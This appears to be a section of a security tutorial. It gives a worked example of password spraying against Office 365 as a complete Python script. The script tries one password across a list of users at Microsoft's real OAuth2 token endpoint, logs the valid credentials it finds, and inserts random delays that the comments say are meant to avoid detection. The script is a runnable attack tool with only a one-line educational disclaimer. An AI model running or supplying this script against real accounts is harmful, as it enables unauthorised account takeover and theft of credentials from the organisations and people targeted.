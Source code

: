 ### 5.3 Worked Example: Password Spraying Against Office 365

This example demonstrates a password spraying attack against Office 365 (simplified for educational purposes):

```python
import requests
import time
import random

def o365_password_spray(userlist_file, password, delay_range=(30, 60)):
    """
    Demonstrate password spraying against O365.
    WARNING: This is for educational purposes only. Unauthorized access is illegal.
    """
    successful_logins = []
    
    # Load user list
    with open(userlist_file, 'r') as f:
        users = [line.strip() for line in f]
    
    # Endpoint (simplified for demonstration)
    auth_url = "https://login.microsoftonline.com/common/oauth2/token"
    
    # Try the same password for each user
    for user in users:
        # Prepare authentication data
        auth_data = {
            'grant_type': 'password',
            'username': user,
            'password': password,
            'client_id': '1b730954-1685-4b74-9bfd-dac224a7b894',  # Example client ID
            'resource': 'https://graph.microsoft.com'
        }
        
        # Send authentication request
        response = requests.post(auth_url, data=auth_data)
        
        # Check if authentication was successful
        if response.status_code == 200:
            successful_logins.append(user)
            print(f"[+] Valid credentials found: {user}:{password}")
        
        # Random delay to avoid detection
        delay = random.uniform(delay_range[0], delay_range[1])
        time.sleep(delay)
    
    return successful_logins

# Example usage
results = o365_password_spray('users.txt', 'Spring2023!', delay_range=(45, 90))
print(f"Found {len(results)} valid accounts")
```
